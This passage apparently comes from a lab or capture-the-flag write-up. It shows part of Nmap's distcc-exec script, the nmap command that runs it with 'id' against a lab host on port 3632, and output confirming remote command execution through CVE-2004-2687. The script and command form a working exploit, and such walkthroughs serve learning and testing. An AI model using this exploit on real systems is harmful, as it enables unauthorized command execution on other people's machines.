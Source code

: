 ```bash
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }

  for _, cmd in ipairs(cmds) do
    if ( not(socket:send(cmd)) ) then
      return fail("Failed to send data to distcc server")
    end
  end

  -- Command could have lots of output, need to cut it off somewhere. 4096 should be enough.
  local status, data = socket:receive_buf(match.pattern_limit("DOTO00000000", 4096), false)

  if ( status ) then
    local output = data:match("SOUT%w%w%w%w%w%w%w%w(.*)")
    if (output and #output > 0) then
      distcc_vuln.extra_info = stdnse.format_output(true, output)
      distcc_vuln.state = vulns.STATE.EXPLOIT
      return report:make_output(distcc_vuln)
    end
  end
end
```

after reading the file above file we use command next 

`nmap -p 3632 10.129.115.59 --script distcc-exec --script-args="distcc-exec.cmd='id'"`

```output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 20:01 +03
Nmap scan report for 10.129.115.59
Host is up (0.30s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-exec: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
```

